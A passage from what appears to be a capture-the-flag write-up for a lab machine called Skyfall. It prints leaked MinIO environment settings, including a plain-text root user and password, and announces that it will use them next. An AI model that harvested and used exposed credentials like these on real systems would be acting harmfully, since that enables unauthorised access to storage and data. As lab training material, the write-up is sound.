 <img src="/assets/img/Skyfall/sky6.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Let's sanitize the input with a beautifier and truncate what isn't interesting to our cause :

```json
{
  "MinioEndpoints": [
    {
      "Legacy": false,
      "SetCount": 1,
      "DrivesPerSet": 4,
      "Endpoints": [
[...]
      ],
      "CmdLine": "http://minio-node{1...2}/data{1...2}",
      "Platform": "OS: linux | Arch: amd64"
    }
  ],
  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_BROWSER": "off",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_PROMETHEUS_AUTH_TYPE": "public",
    "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key",
    "MINIO_UPDATE": "off",
    "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
  }
}
```

And there we have it, we've found some minio credentials. Now it is time to put those to use

## Accessing minio storage
